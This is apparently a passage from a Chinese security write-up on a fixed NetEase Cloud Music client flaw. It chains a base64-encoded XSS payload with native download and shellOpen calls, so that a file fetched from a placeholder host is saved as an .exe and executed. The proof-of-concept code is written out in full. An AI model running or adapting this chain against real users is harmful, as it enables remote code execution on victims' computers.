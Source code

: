 根据代码上下文逻辑，构造出文件下载保存的JavaScript代码。

```
var byz = NEJ.P;
bD = byz("nej.cef");
bD.cFB("download.start", `{` id: "image_download", url: "https://www.baidu.com/img/bd_logo1.png", rel_path: "C:/users/public/1.png", pre_path: "", type: 1 `}`);
```

JavaScript代码太长在xss里格式不好处理，所以将xss代码base64执行。

```
&lt;img src=x onerror=eval(atob('dmFyIGJ5eiA9IE5FSi5QOwpiRCA9IGJ5eigibmVqLmNlZiIpOwpiRC5jRkIoImRvd25sb2FkLnN0YXJ0IiwgeyBpZDogImltYWdlX2Rvd25sb2FkIiwgdXJsOiAiaHR0cHM6Ly93d3cuYmFpZHUuY29tL2ltZy9iZF9sb2dvMS5wbmciLCByZWxfcGF0aDogIkM6L3VzZXJzL3B1YmxpYy8xLnBuZyIsIHByZV9wYXRoOiAiIiwgdHlwZTogMSB9KTs='))&gt;
```

插入XSS代码触发，可以将任意远程文件保存到本地任意位置。poc触发成功后将百度logo图片保存到c:/users/public/1.png

[![](https://p3.ssl.qhimg.com/t01229093e754ef9b6f.jpg)](https://p3.ssl.qhimg.com/t01229093e754ef9b6f.jpg)

当然在实际场景中可能会遇到长度限制，这里只是把payload写在一起作为演示，正常利用建议还是引用远程JS文件。

exe文件已经落地到文件系统中了，接下来就是如何触发下载后的exe文件。通读代码可以发现，网易云音乐基本是通过bD.cFB、bD.bX调用native函数，可以围绕着这些函数调用进行发掘，然后复用函数方法。

通过技巧找到了打开exe文件的方法，这个函数原意应该是用来打开文件夹的，文件/pub/module/main/offline/complete/index.html

[![](https://p3.ssl.qhimg.com/t01d0be3ee6e4ef2abf.jpg)](https://p3.ssl.qhimg.com/t01d0be3ee6e4ef2abf.jpg)

根据代码上下文逻辑，构造出打开指定exe文件的JavaScript代码。

```
var byz = NEJ.P;
bD = byz("nej.cef");
bD.bX("os.shellOpen", "c:/windows/system32/calc.exe");
```

[![](https://p2.ssl.qhimg.com/t010d934bf242fb1897.jpg)](https://p2.ssl.qhimg.com/t010d934bf242fb1897.jpg)

文件下载、打开exe文件都具备了，接下来构造完整漏洞利用代码。

```
var byz = NEJ.P;
bD = byz("nej.cef");
bD.cFB("download.start", `{` id: "image_download", url: "https://xxx.com/calc.jpg", rel_path: "c:/users/public/1.exe", pre_path: "", type: 1 `}`);
setTimeout(function()`{`bD.bX("os.shellOpen", "c:/users/public/1.exe")`}`, 5000);
```

[![](https://p0.ssl.qhimg.com/t0152a226c7e265a839.jpg)](https://p0.ssl.qhimg.com/t0152a226c7e265a839.jpg)

完整利用流程：插入xss payload -&gt; 诱导别人触发xss -&gt; 下载保存exe文件 -&gt; 打开执行exe文件

在网易云音乐最新版本中不仅修复了xss漏洞、增加CSP安全策略，还修复了文件下载、打开文件等涉及文件操作的许多函数，使攻击成本加大，熟悉逆向的可以分析下判断逻辑是否能够绕过。
